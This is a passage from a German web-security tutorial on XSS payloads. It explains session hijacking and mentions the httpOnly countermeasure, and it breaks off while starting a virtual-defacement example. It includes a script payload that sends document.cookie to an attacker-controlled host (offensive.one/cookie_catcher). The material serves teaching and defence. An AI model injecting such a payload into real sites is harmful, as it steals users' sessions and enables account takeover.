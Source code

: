 Eine gute Quelle für weitere XSS-Beispiele ist das [OWASP XSS Filter
Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet).

## XSS-Payloads

Mittels des eingeschleusten JavaScript-Code versucht der Angreifer nun,
negativen Einfluss auf einen Benutzer zu nehmen.

### Session Hijacking

Javascript wird innerhalb des Browsers ausgeführt. Da in diesem auch
zumeist das Session-Cookie zur Identifikation eines Benutzers gegneüber
dem Server gespeichert wird, ist das Stehlen dieses via XSS naheliegend.

Um dies zu bewerkstelligen, verwendet der Angreifer einen
öffentlich-erreichbaren Webserver zu welchem die Cookies (und damit die
Benutzeridentitäten) übermittelt werden sollen. In dem Bespiel wird
<https://offensive.one/cookie_catcher> für diesen Zweck verwendet.

Findet der Angreifer auf der Opferwebseite eine persistent-XSS
Möglichkeit, könnte er nun folgendes Javascript-Fragement als
XSS-Payload verwenden:

```html
<script>
    document.location="https://offensive.one/cookie_catcher?c="+document.cookie;
</script>
```

Der Webbrowser würde also zu einer neuen URL auf dem Angreifer-Server
navigiert werden. Ein Teil der URl ist der Parameter ,,c”, dieser
Parameter wird mit den aktuellen Cookies befüllt. In diesen ist auch das
Session-Cookie enthalten. Der Angreifer würde dieses nun aus den
Log-Dateien seines Servers auslesen, und Zugriffe auf den ursprünglichen
Server mit diesem Cookie mit der Identität des Opfers ausführen können.

Als Gegenmassnahme für diese Payload sollte insbesondere das
*httpOnly*-Flag bei Cookies genannt werden. Durch dieses Flag wird der
Zugriff via Javascript auf das damit konfigurierte Cookie unterbunden.

### Virtual Defacement

Ein weiteres Beispiel wäre *Virtual Defacement*: bei diesem wird mittels
JavaScript die dargestellt Webseite verändert und dadurch ein Defacement
durchgeführt. Bösartig an diesem ist, dass die direkten Inhalte
(Webseiten im Filesystem des Webservers) weiterhin korrekt aussehen.

Ein Beispiel wäre folgende Opferwebseite:

```html
<html>
    <head>..
        <script src="http://cdn.local/script.js"></script>
    </head>
    <body id="main">
        <h1>My Company</h1>
    </body>
</html>
```
